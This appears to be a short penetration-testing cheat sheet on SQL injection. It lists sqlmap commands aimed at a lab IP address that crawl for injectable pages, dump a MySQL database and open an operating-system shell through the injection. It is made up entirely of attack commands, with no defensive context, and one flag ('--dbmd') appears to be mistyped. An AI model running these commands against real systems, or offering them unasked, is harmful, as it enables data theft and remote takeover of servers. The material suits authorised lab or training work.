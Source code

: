 # SQL Injections


## Check for SQL injections
```bash
sqlmap -u http://10.11.1.1 --crawl=1
```

## Atack vulnerable URL
```bash
# Dump database
sqlmap -u http://10.11.1.1/page.php?id=73 --dbmd=mysql --dump --threads=5

# Get shell
sqlmap -u http://10.11.1.1/page.php?id=73 --dbmd=mysql --os-shell
```
